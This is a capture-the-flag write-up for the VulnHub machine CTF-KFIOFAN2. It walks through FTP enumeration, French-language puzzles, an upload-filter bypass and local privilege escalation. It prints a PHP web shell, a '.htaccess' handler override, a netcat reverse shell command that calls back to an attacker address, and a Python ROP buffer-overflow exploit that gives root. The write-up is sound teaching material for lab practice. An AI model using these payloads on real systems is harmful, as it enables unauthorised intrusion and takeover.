<h1 align="center" style="font-size:30px;">
  <br>
  <a href="https://www.vulnhub.com/entry/ctf-kfiofan-2,325/">CTF-KFIOFAN2</a>
  <br>
</h1>

<h4 align="center"> Author: <a href="https://twitter.com/khaos_farbauti">khaos farbauti</a></h4>

## Nmap



woah...this is the first machine I've seen only the FTP is present. I am just going to assuming that we might have to knock so port to open others 🤞.

Since the port allows `Anonymous` login we can just login with `Anonymous:Anonymous`



***

Translation of the welcome message
```
Hi Alice! Following the attack on our previous server, I prepare a new one that will be much more secure! It is under construction for now so please do not touch anything for now ... Bob
```

I guess we'll be using `Goolge translate` during this CTF 😜

***

There were few images and an empty directory named `serrure` which is `lock` in french, I downloaded all the images.



***

Since all we have is the images I started using all kind of steganography tools like `exiftool` and `zsteg` and what not. But nothing gave anything away.

After thinking for a very long time I realised that all of the images had one things in common in their metadata:

```
Comment                         : Created with GIMP
```

And since all 4 of the images looks like someone took an images and divded the image into 4 section, I decided to open all of them in GIMP and then join them.

And this was the result:


***

You can remake the images using some online tools like https://www.filesmerge.com/merge-images or if you are good with GIMP that's awesome.

***

And now if we zoom a bit on the T-SHIRT we can see something written, it's name of a file called `cle.txt`. I don't recall seeing any file with that name on the FTP server. So I logged in again to the FTP and spent quite sometime looking for the file but could find it.

Then I realised that maybe the name of the file may mean something in french.


It actually did, it means `key` and if you remember we found a folder on the FTP server called `serrure` meaning `lock`. Maybe we can insert the key into the lock to find something else and by insert I mean make a new file called `cle.txt` in the `serrure` folder and see if we get something in it. But that would only be possible if we have the write permission in that folder.

I was able to `put` the `cle.txt` file in the `serrure` folder.



I `get` the file after a while hoping to have something in it but I was disappointed when I opened the file, it was empty.

After scratching my head for sometime I decided to ask the author for a nudge and he said that I should run `nmap` scan again after putting the file in that folder, so I did.



😱 😱 😱 😱 😱 😱 😱

We can see that there's new port opened which is running an HTTP server.

***

If we visit the website we can see some lines in french:



Translation, I will :)

```html
<!--  Test presence cle.txt file: OK -->
<!--  Test content cle.txt file: Error -->
<p> All that is, father of lies and sons of nothingness </ p>
```

This could mean that we might have to put some content within the `cle.txt` to show us something. Still before going back to FTP server I decided to enumerate this website.



Nope, nothing there. Now I need to think what could be the content of the file because that is the only way I can move forward(I guess).

This seems like OSINT thing and to `GUESS` what could be the content of that file I decided to lookup the send we got `All that is, father of lies and sons of nothingness` or maybe something related to author.


After an hour of googling and translating french to english on google translate I finally found it in the FAQ section of the author's blog. 🎉



Basically the line `All that is, father of lies and sons of nothingness` is the meaning of the authors name i.e `Khaos Farbauti Ibn Oblivion`.

***

I would suggest you to read a [proper explanation](https://blog.chaosklub.com/post/2005/09/29/256-farbauti-ibn-oblivion) of how the author got his name

***

This could mean that we need to put the name of author in our file and visit the website.

***

That's exactly we were supposed to do, put the name of the author in the file named `cle.txt` and put it in the folder called `serrure`. Then visit the URL and 💥💥




Here we are asked to upload an IMAGE but we can upload any file, I tested this by submitting the `cle.txt`.



`Le fichier cle.txt a été envoyé.` means `The cle.txt file has been sent.`

And I think all of those uploaded files can be accesed via `/uploads/<name-of-the-file>`. Why? Well because when we ran `gobuster` we found a path called `/uploads`.



I was right we can see the content of `cle.txt`. This mean maybe we can upload a `SHELL` and have fun with it.
I created a file named `shell.php` with the following content in it:

```php
<?php system($_GET["cmd"]); ?>
```

But when I tried to upload it I got an error saying `PHP interdit` meaning `PHP forbidden`:



So I renamed it to `shell.php.png` expecting it to work.



Even though the file was accepted but it didn't gave me any RCE.

***

After a simple google search I found an OWASP's wiki page named [Unrestricted_File_Upload](https://www.owasp.org/index.php/Unrestricted_File_Upload) in which there was a line under `Unrestricted_File_Upload` section

```
 Finding missed extensions that can be executed on the server side or can be dangerous on the client side (e.g. ".php5", ".pht", ".phtml", ".shtml", ".asa", ".cer", ".asax", ".swf", or ".xap").
```

The very first extension i.e `php5` bypassed the check.



I tried to execute the command like `ls` or `cd ../;ls` but got nothing. 😡😤

***

I found out that we'll have to make a `.htaccess` file to allow the server to execute the php code.

__Read__:
[PHP code is not being executed, instead code shows on the page](https://stackoverflow.com/a/40959224) or a better [answer](https://stackoverflow.com/a/15500983)

***

Make a file name `.htaccess` with the following content:

```
<FilesMatch ".+\.ph(p[345]?|t|tml)$">
    SetHandler application/x-httpd-php
</FilesMatch>
```

And upload it. This gave me `RCE`, now I can get the damn reverse shell, finally 😌😌

***

I executed the following command:

```bash
➜ http http://192.168.43.185:26980/uploads/shell.php5\?cmd\="nc -e /bin/sh 192.168.43.70 4444"
```

And got the reverse shell



I started to look around in the directories and found a file name `id_rsa.bak`



If you remember we get a welcome message when we log into FTP and there are two names.

```
Hi Alice! Following the attack on our previous server, I prepare a new one that will be much more secure! It is under construction for now so please do not touch anything for now ... Bob
```

`Alice` and `Bob`. This key should belong to any one of them but the problem was that the last time checked there were only two port opened and none of them were running a `SSH` service. But to be sure I re-ran a `nmap` scan.

And I was going crazy after looking at the output:



There's a new open port i.e `26922` running SSH service.

**What the hell is going on in this machine**

***

Tried to login into SSH using the key we got with username `alice` but it didn't belonged to her:



So it had to be the `bob`, if not then maybe another nmap scan will reveal a new port giving us a new username 😜😜😜😜.

That private key belonged to `bob`:



__Note__: Remember to `chmod 600 key` before using it to login or else you'll get an error.

***

The first thing I did was to run Enumeration script to see what all we can find.

I found a SUID named `/home/bob/test`:


Before going through the SUID I decided to look at a file called `todo.txt`



**Translation**

```
- Search secure blog engine
- Ask Alice the graphic charter
- See why gcc says that gets is dangerous
- Find Khaos with Maltego
- Buy a kebab
- Send fanfic on Fauve
```

Nothing interesting. Back to the `test` SUID.

The first thing I did was to get that ELF to my system. You can do this by running
```bash
bob@kfiofan2:~$ python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
```

And from your system run:

```bash
➜ wget http://192.168.43.185:8000/test
--2019-07-06 18:40:44--  http://192.168.43.185:8000/test
Connecting to 192.168.43.185:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 8936 (8.7K) [application/octet-stream]
Saving to: ‘test’

test            100%[=====================>]   8.73K  --.-KB/s    in 0s

2019-07-06 18:40:44 (51.4 MB/s) - ‘test’ saved [8936/8936]
```

***

I first listed all the strings that were present in it:



**Translation**
```
launch debug
touch / root / authorize_bob
return code:% d
Password :
aliceestnulle
Bad password

Because here is the Fawn raging
Who in my heart survives.
Idol of a world pass
God of a sunken country.
```

I ran the binary and used the password: `aliceestnulle` but it didn't worked.



We need to exploit this binary to get the root shell.

You can follow [this](https://blog.techorganic.com/2015/04/21/64-bit-linux-stack-smashing-tutorial-part-2/) article to understand how to exploit the binary.

After you've done it you'll have the following code

```python
#!/usr/bin/env python

from struct import *

buf = ""
buf += "A"*21                              # junk
buf += pack("<Q", 0x555555554923)       # pop rdi; ret;
buf += pack("<Q", 0x7ffff7b9bc19)                 # pointer to "/bin/sh" gets popped into rdi
buf += pack("<Q", 0x7ffff7a79480)           # address of system()

print buf
```

After this execute the code by running

```
$ (python exploit.py;cat)|./test
```



Now we can read the flag in the root dir.



***

The starting part is really guessy but other than that it's a pretty good machine. Thanks to [@khaos_farbauti](https://twitter.com/khaos_farbauti) for this machine.

Thanks to [@4ndr34z](https://twitter.com/4ndr34z) for providing the link to that blog post.

***

Thanks for reading, Feedback is always appreciated.

Follow me [@0xmzfr](https://twitter.com/0xmzfr) for more “Writeups”.
